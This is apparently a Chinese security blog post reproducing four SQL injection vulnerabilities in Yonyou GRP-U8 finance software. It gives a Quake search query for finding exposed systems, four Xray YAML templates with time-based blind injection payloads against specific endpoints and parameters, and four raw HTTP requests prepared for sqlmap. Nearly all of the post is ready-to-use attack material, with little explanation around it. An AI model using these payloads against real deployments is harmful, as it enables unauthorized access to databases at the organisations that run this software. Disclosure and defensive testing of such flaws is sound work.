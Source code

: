 #  【漏洞复现】用友 GRP-U8-obr_zdybxd_check等四个SQL注入漏洞   
原创 文峰SEC  文峰SEC   2025-04-04 21:12  
  
- 漏洞简介  
  
用友GRP-U8R10产品官方在售及提供服务的版本为U8Manager，产品分B、C、G三个产品系列，以上受到本次通报漏洞的影响。用友GRP-U8存在obr_zdybxd_check等四个SQL注入漏洞。  
- 漏洞复现  
  
Quake语法：app:"用友GRP-U8"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/YhFqYGhfZqLnicSHpuiaZv66NEcvRszhU4YJRUHm74oSHNe8mrGRqq4z4F3zJtkFibu3I5V5o0IH6U0AG8icMicCAUA/640?wx_fmt=jpeg&from=appmsg "")  
- POC很简单，具体看Xray脚本，批量yaml文件  
  
```
name: wfsec-yongyou-GRP-U8-bx_dj_check_sqli
transport: http
rules:
  r0:
    request:
      method: GET
      path: /u8qx/bx_dj_check.jsp?djlxdm=OER&djid=1
      follow_redirects: false
    expression: response.status == 200
    output:
      undelayedLantency: response.latency
  r1:
    request:
      method: GET
      path: /u8qx/bx_dj_check.jsp?djlxdm=OER&djid=1';waitfor+delay+'0:0:5'--
      follow_redirects: false
    expression: response.status == 200 && response.latency - undelayedLantency >= 5 * 1000 - 500
expression: r0() && r1()
detail:
  author: wfsec
  links:
    - http://wfsec.com
```  
```
name: wfsec-yongyou-GRP-U8-listSelectDialogServlet_sqli
transport: http
rules:
  r0:
    request:
      method: GET
      path: /listSelectDialogServlet?slType=slFZX&slCdtn=1
      follow_redirects: false
    expression: response.status == 200
    output:
      undelayedLantency: response.latency
  r1:
    request:
      method: GET
      path: /listSelectDialogServlet?slType=slFZX&slCdtn=1=2;waitfor%20delay%20%270:0:5%27
      follow_redirects: false
    expression: response.status == 200 && response.latency - undelayedLantency >= 5 * 1000 - 500
expression: r0() && r1()
detail:
  author: wfsec
  links:
    - http://wfsec.com
```  
```
name: wfsec-yongyou-GRP-U8-obr_zdybxd_check_sqli
transport: http
rules:
  r0:
    request:
      method: GET
      path: /u8qx/obr_zdybxd_check.jsp?mlid=1
      follow_redirects: false
    expression: response.status == 200
    output:
      undelayedLantency: response.latency
  r1:
    request:
      method: GET
      path: /u8qx/obr_zdybxd_check.jsp?mlid=1';waitfor+delay+'0:0:5'--
      follow_redirects: false
    expression: response.status == 200 && response.latency - undelayedLantency >= 5 * 1000 - 500
expression: r0() && r1()
detail:
  author: wfsec
  links:
    - http://wfsec.com
```  
```
name: wfsec-yongyou-GRP-U8-dialog_moreUser_check_sqli
transport: http
rules:
  r0:
    request:
      method: GET
      path: /u8qx/dialog_moreUser_check.jsp?mlid=1
      follow_redirects: false
    expression: response.status == 200
    output:
      undelayedLantency: response.latency
  r1:
    request:
      method: GET
      path: /u8qx/dialog_moreUser_check.jsp?mlid=';waitfor+delay+'0:0:5'--
      follow_redirects: false
    expression: response.status == 200 && response.latency - undelayedLantency >= 5 * 1000 - 500
expression: r0() && r1()
detail:
  author: wfsec
  links:
    - http://wfsec.com
```  
- xray结果也很直观  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YhFqYGhfZqLnicSHpuiaZv66NEcvRszhU4YxlMWcibCkHU6lCQI4ovBiaUhkXj63CAm9VHPDLTdGOhBicgNeTibiaibEtA/640?wx_fmt=png&from=appmsg "")  
  
sqlmap payload 一一对应  
```
# 1
GET /u8qx/bx_dj_check.jsp?djlxdm=OER&djid=1* HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip
# 2
GET /u8qx/dialog_moreUser_check.jsp?mlid=* HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip
# 3
GET /listSelectDialogServlet?slType=slFZX&slCdtn=1=2* HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip
# 4
GET /u8qx/obr_zdybxd_check.jsp?mlid=* HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YhFqYGhfZqLnicSHpuiaZv66NEcvRszhU42HlKMMvE20ibN5ic6gGtvnPEibosQMwgG9JYxPbmOiagwrsAXMt047r9Yg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YhFqYGhfZqLnicSHpuiaZv66NEcvRszhU4NpLOiblVnUOYkbmXO3BWw9ZPONPkGsa7sqRqzNuDdrtLicj3TI58Aic4w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YhFqYGhfZqLnicSHpuiaZv66NEcvRszhU4TXuMSr52kshJ12zRJjJg3OLesSDq6Aica45u2QSDxicrwvfXTNckqMsw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YhFqYGhfZqLnicSHpuiaZv66NEcvRszhU4p2iaZJzqrw3XegWud86jYTRj0zbS6R5RZIt24Uek8ZI5KTuOgSoDZUA/640?wx_fmt=png&from=appmsg "")  
  
  
